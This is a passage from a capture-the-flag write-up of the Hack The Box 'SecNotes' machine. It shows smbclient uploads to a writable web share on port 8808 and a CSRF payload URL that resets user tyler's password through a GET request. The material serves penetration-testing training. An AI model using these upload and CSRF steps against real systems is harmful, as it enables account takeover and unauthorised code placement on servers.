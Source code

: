 ```bash
        new-site                                                READ, WRITE
        .\new-site\*
        dr--r--r--                0 Mon Apr 19 16:46:52 2021    .
        dr--r--r--                0 Mon Apr 19 16:46:52 2021    ..
        fr--r--r--              696 Thu Jun 21 16:15:36 2018    iisstart.htm
        fr--r--r--            98757 Thu Jun 21 16:15:38 2018    iisstart.png
        dr--r--r--                0 Mon Apr 19 16:37:30 2021    new-site
```

Upload is allowed on **/new-site/** and files are uploaded directly on the webserver on port 8808:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ smbclient //secnotes.htb/new-site -U tyler                  
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 19 16:46:52 2021
  ..                                  D        0  Mon Apr 19 16:46:52 2021
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
smb: \> put test.txt 
putting file test.txt as \test.txt (0.1 kb/s) (average 0.1 kb/s)
smb: \> quit

┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ curl http://secnotes.htb:8808/test.txt                                      
This is a test
```

# Exploitation

## Cross Site Request Forgery to change tyler's password

Password reset feature supports both GET and POST requests, furthermore it does not implement any CSRF token not a verification with an old password.

Payload: [http://10.10.10.97/change_pass.php?password=hacked&confirm_password=hacked&submit=submit](http://10.10.10.97/change_pass.php?password=hacked&confirm_password=hacked&submit=submit)

![Pasted image 20210419220104.png](../../zzz_res/attachments/Pasted_image_20210419220104.png)

